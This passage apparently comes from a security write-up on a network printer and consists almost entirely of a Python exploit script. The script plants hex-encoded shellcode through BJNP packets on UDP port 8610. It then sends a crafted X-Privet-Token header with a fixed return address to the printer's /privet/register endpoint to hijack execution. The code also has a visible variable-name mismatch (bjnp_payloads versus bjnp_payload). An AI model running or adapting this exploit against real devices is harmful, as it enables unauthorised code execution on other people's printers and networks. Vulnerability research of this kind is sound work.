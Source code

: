 Putting it all together, here is an exploit which does just that:

```python
import time
import socket
import base64
import http.client

def store_payload(sock, payload):
    assert len(payload) <= 0x180, ValueError(
        "Payload too long: {} is greater than {}".format(len(payload), 0x180)
    )

    pkt = BJNPPkt(
        cmd=0x210,
        seq_no=0,
        sess_id=1,
        body=(b"\x00" * 8 + payload + b"\x00" * (0x180 - len(payload))),
    )
    pkt.show2()
    sock.sendall(bytes(pkt))

    res = BJNPPkt(sock.recv(4096))
    res.show2()

    # The printer should return a valid session ID
    assert res.sess_id != 0, ValueError("Failed to create session")

def cleanup_payload(sock):
    pkt = BJNPPkt(
        cmd=0x211,
        seq_no=0,
        sess_id=1,
    )
    pkt.show2()
    sock.sendall(bytes(pkt))

    res = BJNPPkt(sock.recv(4096))
    res.show2()

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.connect(("192.168.1.100", 8610))

bjnp_payloads = bytes.fromhex("4FF0000045F2D84C44F2301CE0474FF000004EF6A031C4F2DE018E467047")
store_payload(sock, bjnp_payload)

privet_payload = privet.PrivetPayload(ret_addr=0x46F2B2B9)
headers = {
    "Content-type": "application/json",
    "Accept": "text/plain",
    "X-Privet-Token": base64.b64encode(bytes(privet_payload)),
}

conn = http.client.HTTPConnection("192.168.1.100", 80)
conn.request("POST", "/privet/register", "", headers)

time.sleep(5)

cleanup_payload(sock)
sock.close()
```
